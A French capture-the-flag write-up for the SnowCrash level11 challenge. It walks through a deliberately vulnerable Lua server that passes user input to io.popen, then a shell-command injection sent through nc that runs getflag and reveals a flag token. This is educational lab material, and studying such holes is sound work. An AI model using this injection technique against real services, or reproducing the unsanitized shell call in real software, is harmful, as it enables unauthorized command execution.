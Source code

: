 Au login nous voyons un fichier level11.lua qui contient un script lua.
```lua 
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
Nous voyons que le script attend une connexion sur le port 5151 et envoie "Password: " au client.

Après analyse du script nous voyons une faiblesse au niveau de io.popen("echo "..pass.." | sha1sum", "r")

Par nos expériences précédentes nous savons que la fonction io.popen permet d'executer des commandes shell et de récupérer le résultat, donc nous décidons de tester si nous pouvons injecter des commandes shell.

Avec echo nous envoyons la commande shell suivante.

```bash
echo '; getflag | tee /tmp/testq' | nc localhost 5151
```
Nous avons envoyé la commande shell `getflag` et nous avons redirigé la sortie pour écrire directement vers le fichier `/tmp/testq`.

Nous lisons le fichier `/tmp/testq` et nous voyons le flag.

```bash
level11@SnowCrash:~$ cat /tmp/testq
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
